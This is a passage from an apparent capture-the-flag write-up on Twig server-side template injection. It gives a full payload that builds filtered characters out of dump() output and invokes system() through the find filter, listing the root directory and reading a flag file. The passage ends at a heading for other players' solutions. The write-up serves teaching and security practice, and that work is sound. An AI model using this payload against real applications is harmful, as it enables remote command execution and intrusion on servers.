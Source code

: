 My teammate created a script to automatically find all the necessary characters and build the final payload. Thanks to him!

My final payload looks like:

```php
{% set a = dump()|slice(0,1)|lower %}
{% set b = dump()|slice(304,1)|lower %}
{% set c = dump()|slice(330,1)|lower %}
{% set d = dump()|slice(356,1)|lower %}
{% set e = dump()|slice(18,1)|lower %}
{% set f = dump()|slice(263,1)|lower %}
{% set g = dump()|slice(62,1)|lower %}
{% set h = dump()|slice(224,1)|lower %}
{% set i = dump()|slice(60,1)|lower %}
{% set j = dump()|slice(512,1)|lower %}
{% set k = dump()|slice(538,1)|lower %}
{% set l = dump()|slice(71,1)|lower %}
{% set m = dump()|slice(46,1)|lower %}
{% set n = dump()|slice(44,1)|lower %}
{% set o = dump()|slice(261,1)|lower %}
{% set p = dump()|slice(159,1)|lower %}
{% set q = dump()|slice(694,1)|lower %}
{% set r = dump()|slice(1,1)|lower %}
{% set s = dump()|slice(17,1)|lower %}
{% set t = dump()|slice(58,1)|lower %}
{% set u = dump()|slice(16,1)|lower %}
{% set v = dump()|slice(824,1)|lower %}
{% set w = dump()|slice(850,1)|lower %}
{% set x = dump()|slice(876,1)|lower %}
{% set y = dump()|slice(4,1)|lower %}
{% set z = dump()|slice(928,1)|lower %}
{% set space = dump()|slice(9,1) %}
{% set endl = dump()|slice(11,1) %}
{% set hyphen = _charset|slice(3,1) %}
{% set slash = endl|join|nl2br|slice(4,1) %}

{{ {s:l~s~space~slash}|find(s~y~s~t~e~m) }}
{% set flag = c~a~t~space~slash~f~l~a~g~hyphen~e~d~b~f~c~b~c~a~e~f %}{{ {s:flag}|find(s~y~s~t~e~m) }}
```

First, we create variables for different letters. Then, we also create four more variables for space, hyphen, newline, and slash.

Next, we use mappings and the find function to call any command we want. We first check the filename and then use cat to read the flag.

### Other ways

In hindsight, my method feels a bit overkill. There were some interesting and more efficient payloads by other players. Their solutions were smaller, and some didn’t use dump at all.

**[Jorian's](https://github.com/JorianWoltjer) payload:**
